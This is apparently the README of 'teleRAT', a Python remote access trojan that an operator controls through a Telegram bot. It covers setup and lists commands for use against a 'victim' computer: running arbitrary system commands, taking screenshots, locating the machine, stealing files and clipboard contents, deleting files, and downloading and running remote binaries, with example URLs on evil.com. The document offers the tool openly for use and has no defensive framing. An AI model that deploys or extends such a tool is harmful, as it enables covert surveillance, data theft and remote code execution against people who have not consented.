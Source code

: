 # teleRAT

Python based RAT that uses Telegram for sending commands and receiving data to and from a victim computer.


# Setup.py

1. Insert your API key into the `api` variable inside the setup.py script & run it. This will setup your Telegram chat with your created bot with the necessary commands to avoid inserting each command along with the help message.
* Read [here](https://www.teleme.io/articles/create_your_own_telegram_bot?hl=en) to create your own bot and obtain your API token.

2. Install necessary requirements: `pip install -r requirements.txt`
3. Send a command to your Telegram bot
4. Run `python3 main.py`  
**Note:** This runs in a while loop and sleeps for 10 seconds before checking Telegram for updated commands. It will re-run the last command in the channel. Adding the /sleep command to Telegram will allow you to add additional time between check ins.


## Available Commands

* **/whoami** - returns username. no additional arguments required.
* **/sleep** - will have to bot sleep for the specified amount of time in seconds.
* **/screenshot** - takes screenshots. requires the number of screenshots to take (EX: /screenshot 5 <- to take 5 screenshots)
* **/location** - returns location info (region, state, zip code, estimated coordinates, timezone, country, ip address)
* **/metadata** - returns metadata info about a specified file. requires filepath as an additional argument (EX: /metadata C:\Users\Username\Files\special.java <- will return metadata info about special.java)
* **/execute** - executes specified system command. requires 2 additional arguments: the system command and additional arguments to pass to that system command (EX: /execute cmd.exe [/c,ver] or /execute binary.exe none} in order to execute binary.exe with no arguments)
* **/power** - allows operator to shutoff, hibernate, or restart computer. requires 1 additional argument: hibernate, pd (to power down), or restart (EX: /power pd <- to power down the victim's computer)
* **/ls** - provides operator with directory listing. If no additional argument is provided, it provides directory listing for directory in which malware is. Additional argument of a directory is optional (EX: /ls %APPDATA% <- provides directory listing for APPDATA directory)
* **/delete** - deletes a user specified file. Additional argument of filepath is required (EX: /delete C:\Users\Username\Files\temp.txt <- deletes a file named temp.txt)
* **/wreport** - provides information regarding the wireless profiles the computer has connected to in the past, the drivers, and a list of wireless interfaces.
* **/remotebinary** - download and execute a remote binary. Requires 2 additional arguments: the URL where the binary is and any additional arguments to pass when executing the binary (EX: /remotebinary https://evil.com/file.exe noargs <- execute file.exe with no arguments or /remotebinary https://evil.com/file.exe [-c,-f] <- to execute file.exe with flags c & f)
* **/processes** - returns a list of running processes and services
* **/gather** - return a specified file. requires 1 additional argument: the filepath (EX: /gather C:\Users\username\important\file.xlsx <- grab and upload file.xlsx to Telegram chat)
* **/report** - provides a hardware report & Windows version to operator
* **/playnoise** - plays a user specified noise. available list of noises include: asterisk sound (asterisk), exclamation sound (exclamation), exit sound (exit), hand sound (hand), question sound (question), and beep (beep) (EX: /playnoise beep or /playnoise question)
* **/gatherclip** - returns data currently copied in the victim's clipboard. requires no additional arguments.
* **/messagebox** - will present the victim with a message box. 2 additional arguments are required: caption and title for the window (EX: /messagebox <text> <title>
